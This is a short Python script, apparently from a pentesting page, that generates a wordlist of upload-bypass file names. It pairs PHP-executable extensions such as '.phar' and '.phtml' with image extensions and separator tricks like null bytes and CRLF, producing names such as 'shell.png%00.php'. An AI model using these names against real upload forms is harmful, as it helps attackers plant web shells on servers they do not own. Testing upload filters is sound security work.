 ## script to write custom file extensions 
```python
char_list = {'%20', '%0a', '%00', '%0d0a', '/', '.\\', '.', '…', ':'}
harm_ext_list = {'.phpt', '.phar', '.pht', '.php8', '.php5', '.php4', '.php3', '.pgif', '.phtml', ".php", ".php7", '.phtm'}
good_ext_list = {'.png', '.gif', '.jpeg', '.svg'}

with open('filelist.txt', 'a') as f:
    for char in char_list:
        for hext in harm_ext_list:
            for gext in good_ext_list:
                variations = [
                    f'shell{hext}',
                    f'shell{hext}.png',
                    f'shell.png{hext}',
                    f'shell.png{char}{hext}',
                    f'shell.png{hext}{char}',
                    f'shell{char}{hext}.png',
                    f'shell{hext}{char}.png'
                ]
                for variant in variations:
                    f.write(f'{variant}\n')

```
